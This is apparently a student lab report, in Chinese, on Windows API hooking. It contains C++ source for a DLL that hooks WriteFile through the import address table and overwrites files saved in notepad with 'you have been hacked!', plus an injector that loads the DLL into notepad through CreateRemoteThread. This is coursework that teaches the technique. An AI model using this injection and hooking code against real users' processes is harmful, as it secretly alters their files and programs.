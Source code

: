 ### 一、实验任务

5、通过API hook的方法，在每次notepad保存txt文件时，就将文件内容修改为： “you have been hacked!”

API hook 的关键是编写一个假函数，用假函数的指针替换IAT中真函数的指针（当然这种方式只能对通过IAT调用的管用，但是够了。）在假函数调用真函数，修改真函数的参数和返回的数据，将修改后的数据返回给调用者。（比第四题多加的条件，即不用Windbg用API hook方法）

- 文件关闭CloseFile，把文件指针调到文件头修改后再close

### 二、实验过程

> 先导试验

#####  一、生成MyWriteFileHook.dll

- 创建Windows桌面向导 取消选择「为解决方案创建目录」

![image-20190406212808730](/Users/cclin/Documents/GitHub/SoftandSyssafehm/hw5/images/image-20190406212808730.png)

- 依次选择应用程序类型「动态链接库(.dll)」，其它选项勾选「空项目」并取消勾选「安全开发生命周期(SDL)检查(C)」

![image-20190406212939294](/Users/cclin/Documents/GitHub/SoftandSyssafehm/hw5/images/image-20190406212939294.png)

- 添加编写源文件MyWriteFileHook.cpp，仅生成并不执行该项目

  ```bash
  #MyWriteFileHook.cpp
  
  #include <windows.h>
  
  LONG IATHook(
  	__in_opt void* pImageBase,
  	__in_opt const char* pszImportDllName,
  	__in const char* pszRoutineName,
  	__in void* pFakeRoutine,
  	__out HANDLE* phHook
  );
  
  LONG UnIATHook(__in HANDLE hHook);
  
  void* GetIATHookOrign(__in HANDLE hHook);
  
  typedef bool(__stdcall *LPFN_WriteFile)(
  	HANDLE       hFile,//文件句柄
  	LPCVOID      lpBuffer,//数据缓存区指针
  	DWORD        nNumberOfBytesToWrite,//写入字节数
  	LPDWORD      lpNumberOfBytesWritten,//用于保存实际写入字节数的存储区域的指针
  	LPOVERLAPPED lpOverlapped//OVERLAPPED结构体指针
  	);
  
  HANDLE g_hHook_WriteFile = NULL;
  //////////////////////////////////////////////////////////////////////////
  
  bool __stdcall Fake_WriteFile(
  	HANDLE       hFile,
  	LPCVOID      lpBuffer,
  	DWORD        nNumberOfBytesToWrite,
  	LPDWORD      lpNumberOfBytesWritten,
  	LPOVERLAPPED lpOverlapped
  ) {
  	LPFN_WriteFile fnOrigin = (LPFN_WriteFile)GetIATHookOrign(g_hHook_WriteFile);
  
  	char DataBuffer[] = "you have been hacked!\r\n";
  	DWORD dwBytesToWrite = (DWORD)strlen(DataBuffer);
  	DWORD dwBytesWritten = 0;
  
  	return fnOrigin(hFile, DataBuffer, dwBytesToWrite, &dwBytesWritten, lpOverlapped);
  }
  //文件加载时调用的入口函数
  BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpvRevered) {
  	switch (dwReason) {
  	//dwReason值为DLL_PROCESS_ATTACH，MyDll.dll只在最开始被加载时调用IATHook
  	case DLL_PROCESS_ATTACH:
  		IATHook(
  			GetModuleHandle(NULL),
  			"kernel32.dll",
  			"WriteFile",
  			Fake_WriteFile,
  			&g_hHook_WriteFile
  		);
  		break;
  	case DLL_PROCESS_DETACH:
  		UnIATHook(g_hHook_WriteFile);
  		break;
  	}
  	return TRUE;
  }
  ```

- 成功生成MyWriteFileHook.dll ，并将其移动到`C:\sashookexp\`路径下

#####  二、生成Inject.exe

- 创建Windows桌面向导 取消选择「为解决方案创建目录」

  ![image-20190406201141952](/Users/cclin/Documents/GitHub/SoftandSyssafehm/hw5/images/image-20190406201141952.png)

- 依次选择应用程序类型「控制台应用程序(.exe)」，其它选项勾选「空项目」并取消勾选「安全开发生命周期(SDL)检查(C)」

  ![image-20190406201209239](/Users/cclin/Documents/GitHub/SoftandSyssafehm/hw5/images/image-20190406201209239.png)

- 添加源文件lnject.cpp使notepad.exe注入MyWriteFileHook.dll,并设置项目属性`属性配置 `->`常规`->`项目默认值`->`字符集：使用多字节字符集`（解决 调用ProcessEntry结构体时出现的“WCHAR*”与“const char *”类型的形参不兼容问题），编译生成得到Inject.exe，将其移动到`C:\sashookexp\`路径下。

  ```bash
  #lnject.cpp
  
  #include <windows.h>
  #include <stdio.h>
  #include <tlhelp32.h>
  
  int main() {
  	/*设置本地加载MyWriteFileHook.dll路径*/
  	char szDllName[] = "C:\\sashookexp\\MyWriteFileHook.dll";
  
  
  	/* Step 1 */
  	PROCESSENTRY32 ProcessEntry = {};
  	ProcessEntry.dwSize = sizeof(PROCESSENTRY32);
  	HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  	bool bRet = Process32First(hProcessSnap, &ProcessEntry);
  	DWORD dwProcessId = 0;
  	while (bRet) {
  		if (strcmp("notepad.exe", ProcessEntry.szExeFile) == 0) {
  			dwProcessId = ProcessEntry.th32ProcessID;
  			break;
  		}
  		bRet = Process32Next(hProcessSnap, &ProcessEntry);
  	}
  	if (0 == dwProcessId) {
  		printf("找不到进程\n");
  		return 1;
  	}
  
  	/* Step 2 */
  	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
  	if (0 == hProcess) {
  		printf("无法打开进程\n");
  		return 1;
  	}
  
  	/* Step 3 */
  	size_t length = strlen(szDllName) + 1;
  	char * pszDllFile = (char *)VirtualAllocEx(hProcess, NULL, length, MEM_COMMIT, PAGE_READWRITE);
  	if (0 == pszDllFile) {
  		printf("远程空间分配失败\n");
  		return 1;
  	}
  
  	/* Step 4 */
  	if (!WriteProcessMemory(hProcess, (PVOID)pszDllFile, (PVOID)szDllName, length, NULL)) {
  		printf("远程空间写入失败\n");
  		return 1;
  	}
  
  	/* Step 5 */
  	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("kernel32"), "LoadLibraryA");
  	if (0 == pfnThreadRtn) {
  		printf("LoadLibraryA函数地址获取失败\n");
  		return 1;
  	}
  
  	/* Step 6 */
  	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, (PVOID)pszDllFile, 0, NULL);
  	if (0 == hThread) {
  		printf("远程线程创建失败\n");
  		return 1;
  	}
  
  	/* Step 7 */
  	WaitForSingleObject(hThread, INFINITE);
  	printf("远程线程执行完毕!\n");
  
  	VirtualFreeEx(hProcess, (PVOID)pszDllFile, 0, MEM_RELEASE);
  	CloseHandle(hThread);
  	CloseHandle(hProcess);
  
  	return 0;
  }
  ```

  ![image-20190406202209985](/Users/cclin/Documents/GitHub/SoftandSyssafehm/hw5/images/image-20190406202209985.png)

  ![image-20190406202035916](/Users/cclin/Library/Application Support/typora-user-images/image-20190406202035916.png)

​    

- 打开运行notepad.exe，编辑内容txt文本文档内容为“Welcome to use notepad”，然后运行Inject.exe，保存该文档为test.txt，然后保存关闭notepad.exe，再次打开保存的test.txt，内容变为在MyWriteFileHook.cpp中设置修改的内容`you have been hacked!\r\n `

### 三、实验结果

### 四、实验问题

- [ ] 在生成MyWriteFile.dll时报错

  ![image-20190406222045596](/Users/cclin/Documents/GitHub/SoftandSyssafehm/hw5/images/image-20190406222045596.png)



